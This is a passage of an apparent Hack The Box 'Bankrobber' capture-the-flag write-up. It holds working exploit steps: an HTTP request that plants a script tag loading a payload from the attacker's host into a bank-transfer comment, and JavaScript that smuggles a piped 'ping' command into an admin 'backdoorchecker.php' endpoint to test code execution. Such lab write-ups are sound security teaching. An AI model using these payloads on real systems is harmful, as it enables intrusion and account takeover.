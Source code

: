 ![HTML Source admin page](/assets/images/HTB-Bankrobber/1.e%20HTML%20Source%20admin%20page.png)

We'll use the `ping` command to see if we have code execution on the server.

```javascript
var cmd = "dir | ping -n 1 10.10.14.16";
var http = new XMLHttpRequest();
var url = 'http://localhost/admin/backdoorchecker.php';
var params = 'cmd='+cmd;
http.open('POST', url, true);
http.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
http.send(params);
```

```bash
luc@kali:~/HTB/Bankrobber$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```http
POST /user/transfer.php HTTP/1.1

fromId=10&toId=1&amount=1&comment=<script+src%3dhttp%3a//10.10.14.16/payload.js></script>
```
